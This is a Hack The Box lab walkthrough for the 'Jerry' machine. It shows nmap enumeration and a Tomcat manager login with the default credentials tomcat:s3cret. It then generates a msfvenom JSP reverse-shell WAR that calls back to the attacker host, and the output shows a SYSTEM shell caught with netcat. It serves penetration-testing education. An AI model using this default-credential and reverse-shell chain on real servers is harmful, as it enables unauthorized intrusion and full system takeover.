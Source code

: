 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [Apache Tomcat/7.0.88](#apache-tomcat7088)
- [Foothold](#foothold)
	- [WAR file upload](#war-file-upload)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.95

[+] Openning ports: 8080

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.95 -p8080
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 14:09 +07
Nmap scan report for 10.10.10.95
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.30 seconds
```

### Apache Tomcat/7.0.88

At port 8080, it is Tomcat's home page.

![](images/2.png)

At manager page `http://10.10.10.95:8080/manager/html`, I try to login with defaul credential `tomcat:s3cret` and I got admin.

![](images/3.png)

## Foothold

### WAR file upload

Create `shell.war` using msfvenom to deploy in tomcat server.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war > shell.war
```

Upload file `shell.war` and deploy it.

![](images/4.png)

Execute web shell and got the reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:45.9]~/walkthrough/hackthebox/jerry
└─$ curl http://10.10.10.95:8080/shell/
```

At listener, I got system shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:46.0]~
└─$ sudo nc -nvlp 443                            
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```